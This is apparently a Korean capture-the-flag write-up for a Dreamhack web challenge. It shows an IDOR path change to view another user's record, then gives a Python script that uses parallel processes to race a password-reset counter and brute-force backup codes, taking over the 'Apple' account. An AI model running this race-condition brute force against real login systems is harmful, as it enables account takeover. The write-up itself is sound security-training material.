 그리고 만든 계정으로 로그인을 하면 로그인 성공창이 뜬다.

 

![user17.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/86c298b2-c12a-4c40-960f-599aceb8cc8a/user17.png)

admin 으로 로그인 하고 ID:admin을 누르면 위와 같이 바뀌며 경로는 /user/17로 되어있다. UserLevel이 0이므로 admin 페이지로 접속을 해도 권한이 없어서 접속이 불가능하다.

![Apple.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cd01827d-8ea0-4c0b-bd0b-4e326a3d8892/Apple.png)

이 index 값을 조작하여 /user/1로 바꾸면 다른 유저의 정보를 염탐할 수 있다. Apple의 경우 UserLevel이 1이므로 Apple로 로그인한 후 admin페이지를 호출하면 FLAG를 얻을 수 있다. 

이제 Apple의 ID는 Apple 임을 알 수 있으므로 Apple로 로그인을 시도해야 한다. 그리고 본 문제에서는 execute시에 파라미터로 넣어주므로 SQL Injectin은 되지 않는다. 따라서 이번에는 코드 분석시에 forgot_password에서 1초 동안 쉬는 sleep 구문을 이용해서 한번에 여러 쓰레드를 이용해 1초내에 MAXRESETCOUNT값인 5를 넘겨 버리고 무작위 대입법을 막기 위한 MAXRESETCOUNT 조건을 우회하고 0~100값을 대입해서 원하는 비밀번호로 변경하는 식으로 진행했다.

```python
import requests,random
from multiprocessing import Process

query='http://host3.dreamhack.games:18218/forgot_password'
def answer(low,high):
    for i in range(low,high):
        data={
            'userid':'Apple',
            'newPassword' : 'Apple',
            'backupCode':i
        }
        response=requests.post(query,data)
        print(i)
        if 'Success' in response.text:
            print(i,"success")
            break
    
if __name__=="__main__":
    th1 = Process(target=answer, args=(0,5))
    th2 = Process(target=answer,args=(5,10))

    th1.start()
    th2.start()

    for i in range(0,100):
        data={
            'userid':'Apple',
            'newpassword' : 'Apple',
            'backupCode':i
        }
        response=requests.post(query,data)
        print(i)
        if 'Password Change Success' in response.text:
            print(i,"success")
            break
```
